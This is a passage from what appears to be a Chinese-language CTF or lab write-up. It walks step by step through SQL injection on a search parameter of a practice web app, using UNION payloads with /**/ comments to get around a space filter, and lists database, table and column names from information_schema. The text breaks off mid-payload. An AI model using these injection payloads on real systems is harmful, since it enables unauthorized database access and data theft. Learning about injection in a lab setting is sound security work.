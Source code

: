 之后开始注入

尝试正常的union联合注入

```plain
OSI%' union select database(),2,3 like '1
```

发现没有回显，先尝试是不是空格被过滤了，之后考虑关键词绕过

```plain
OSI%'/**/union/**/select/**/database(),2,3/**/like/**/'1
```

[![](assets/1701678867-d36c13a005fb32b36e172260266f1eee.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203520-97a1fcf2-8dea-1.png)

再看表名

```plain
OSI%'/**/union/**/select/**/group_concat(table_name),2,3/**/from/**/information_schema.tables/**/where/**/table_schema/**/like/**/'webapp
```

[![](assets/1701678867-c5e681aa604573b6fbc4b91b6a35bec9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203525-9b22307c-8dea-1.png)

再看字段名

```plain
OSI%'/**/union/**/select/**/group_concat(column_name),2,3/**/from/**/information_schema.columns/**/where/**/table_schema='webapphacking'/**/and/**/table_name/**/like/**/'use
```
